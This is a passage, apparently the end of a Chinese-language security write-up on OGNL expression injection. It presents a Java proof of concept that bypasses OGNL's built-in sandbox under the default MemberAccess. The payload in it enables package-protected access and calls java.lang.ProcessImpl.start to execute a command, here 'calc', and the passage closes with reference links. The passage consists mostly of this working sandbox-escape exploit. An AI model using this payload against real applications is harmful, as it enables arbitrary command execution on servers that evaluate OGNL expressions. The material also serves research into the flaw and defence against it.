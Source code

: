 最后，如果靶机使用了 `Ognl` 官方的沙箱： `System.setProperty("ognl.security.manager","true");` ，且使用了默认的 `MemeberAccess` ，那么可以使用如下方式进行绕过：

```java
/**
 * Bypass OGNL sandbox
 */
public static void bypassSandBox()throws Exception{
    System.setProperty("ognl.security.manager","true");
    OgnlContext context = new OgnlContext();
    HashMap<String, Object> rootMap = new HashMap<>(1);
    rootMap.put("test","@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS.setAllowPackageProtectedAccess(true),#cmd=new String[]{'calc'},@java.lang.ProcessImpl@start(#cmd,null,null,null,false)");
    context.setRoot(rootMap);
    String express = "(test)('fuckOgnl')";
    Ognl.getValue(express,context, context.getRoot());
}
```

## 参考链接

- https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/
- https://commons.apache.org/proper/commons-ognl/language-guide.html
